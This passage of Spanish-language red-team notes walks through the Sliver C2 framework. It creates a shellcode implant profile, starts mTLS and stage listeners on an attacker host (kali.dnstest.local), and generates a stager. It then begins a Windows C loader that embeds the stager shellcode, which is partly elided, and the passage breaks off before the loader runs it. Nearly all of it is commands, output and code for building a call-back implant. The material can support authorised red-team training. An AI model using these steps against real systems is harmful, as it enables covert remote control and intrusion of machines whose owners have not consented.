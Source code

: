 ```bash
[*] Implant saved to /var/www/html/SAD_DEPRESSIVE.exe
```



## Stagers

Como los payloads generados por Sliver pesan mucho (al menos 10mb al estar compilados en GO), podemos generar nuestro propio shellcode en Sliver (a partir de MSFVenom) y creando programa que ejecute esta shellcode.

### Basic Stager

Para generar el shellcode es necesario crear un perfil con el cual vamos a generar los listener

<pre class="language-bash"><code class="lang-bash">sliver > profiles new  --mtls kali.dnstest.local --skip-symbols --format shellcode --arch amd64 win64shell

[*] Saved new implant profile win64shell

sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

sliver > stage-listener --url tcp://kali.dnstest.local:8443 --profile win64shell

[*] No builds found for profile win64shell, generating a new one
[*] Job 2 (tcp) started

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888 
 2    TCP    tcp        8443 

sliver > generate stager --lhost kali.dnstest.local --lport 8443 --arch amd64 --format c --save /tmp

[*] Sliver implant stager saved to: /tmp/WIDE-EYED_PLANET


#--------------------------------#

cat /tmp/WIDE-EYED_PLANET                
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
<strong>                        . . .
</strong>"\x52\x51\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18"
                        . . .
</code></pre>

Como vamos a usar C para nuestro programa nos debería quedar algo así:

{% code lineNumbers="true" %}
```c
#include "windows.h"

int main()
        {
        unsigned char buf[] = 
                "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
                "\x52\x51\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18"
                "\x48\x8b\x52\x20\x56\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48"
                                      . . .
                "\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
                "\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
                "\x2a\x0a\x41\x89\xda\xff\xd5";
                
```